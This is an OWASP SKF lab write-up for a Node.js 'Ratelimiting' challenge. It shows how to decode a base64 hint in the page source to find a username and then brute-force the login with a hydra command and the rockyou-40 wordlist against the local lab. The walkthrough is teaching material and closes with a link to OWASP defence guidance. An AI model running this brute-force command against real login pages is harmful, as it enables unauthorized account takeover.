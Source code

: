 # Brute force login

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-ratelimiting
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-ratelimiting
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

The application shows a admin login form, but we don't have the credentials, we'll have to somehow login inorder to solve the challenge, the name of the challenge is 'Ratelimiting', from that we know that we need to bruteforce login, but what would be the username?

Let's do more investigation, upon viewing the source code, there is a base64 message commented out there.

![](../../.gitbook/assets/nodejs/Ratelimiting/1.png)

We are going to decrypt the base64 encoded string using terminal as shown in the below image.

![](../../.gitbook/assets/nodejs/Ratelimiting/2.png)

```text
$ echo 'RGV2ZWxvcGVyIHVzZXJuYW1lOiBkZXZ0ZWFtCkNsaWVudDogUm9ja3lvdQ==' | base64 --decode
$ Developer username: devteam
$ Client: Rockyou
```

## Exploitation

From this, it seems that the developer has an account with username devteam, so we probably need to bruteforce into that =\) Client, rockyou? Are we referring to the rockyou wordlist?

Rockyou Wordlist - [https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou-40.txt)

So we'll have to bruteforce the login form which is post based using some tool, I prefer hydra & burp suite's intruder to do this, in this writeup, i'll demonstrate this using hydra.

Bruteforcing using Hydra

```text
hydra -l devteam -P ./rockyou-40.txt 0.0.0.0 -s 5000 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid"

let's make this clear since it might be confusing for newbies or those who have never used hydra before.

-l denotes username here.
-P denotes the location of the wordlist with the passwords
0.0.0.0 is the host address
-s denotes the target port.
http-post-form is used to specify that this is a http-post-form.
 "/:username=^USER^&password=^PASS^ <-- These are the post parameters which are being bruteforced.
 F=Invalid <-- This parameter is used to filter out invalid logins.
```

After you launch a bruteforce attack against the login function, after several minutes, you'll get the password like the below screenshot.

![](../../.gitbook/assets/nodejs/Ratelimiting/3.png)

## Additional sources

Please refer to the OWASP's guide for protecting against such type of bruteforce attacks which happens because ratelimiting is not set.

{% embed url="https://owasp.org/www-community/attacks/Brute_force_attack" %}
